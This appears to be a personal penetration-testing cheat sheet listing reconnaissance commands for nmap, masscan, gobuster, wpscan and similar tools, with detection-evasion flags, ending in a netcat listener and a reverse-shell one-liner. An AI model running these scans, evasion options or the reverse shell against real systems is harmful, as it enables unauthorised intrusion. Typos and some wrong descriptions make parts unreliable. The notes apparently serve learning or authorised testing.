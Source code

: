 All commands and links i need to sort.  


Recon  
Find Vuln  
Exploit  
Evlate   
Repeat  
ZAP better then burp  

nmap -sn 192.168.0.1/24 - scans network for all hosts  
nmap -sV <ip> - does a service scan on a target ip  
nmap -sC <ip> - does a scripts scan on a target ip (this and the above can be combined with -sVC)   
nmap --script vuln <ip> - does a quick vulnerability scan on a host  
nmap -p 8080 --script="http-enum" <ip> - does a scripts scan on a target ip and port.     
namp -A <ip> - does a deep scan for everything above.  
other options -f (fragment, make it harder for detection), --source 53 (make it appear as if coming from dns port),  

masscan 192.168.0.1/24 -p0-65535 --rate=10000 - scans network for all hosts, but fast  
masscan 192.168.0.1/24 -p23 --rate=1000 - does a quick scan for all telnet open  
other options --randomize-hosts (dont scan in order)  

curl -u http://website - display website header and info  

dirsearch -u http://website - enumerates subdirectories  
gobuster dir -u http://website -w /usr/share/seclist - enumerates subdirectories  
gobuster dns -d http://website -w dns Jhaddix.txt - enumerates subdirectories  

sublist3r -d http://website - enumerates subdirectories  

wpscan --url http://website --enumerate  u for user, p for plugins, t for themes  
wpscan --url http://website --enumerate  vp,vt --plugins-detection aggressive (need api token)  

amass enum -d domain --passive - gives XXXX  

## Online Tools ##
https://gchq.github.io/CyberChef/  -  

nc -lvp 1337  
nc -e /bon/sh ip 1337   

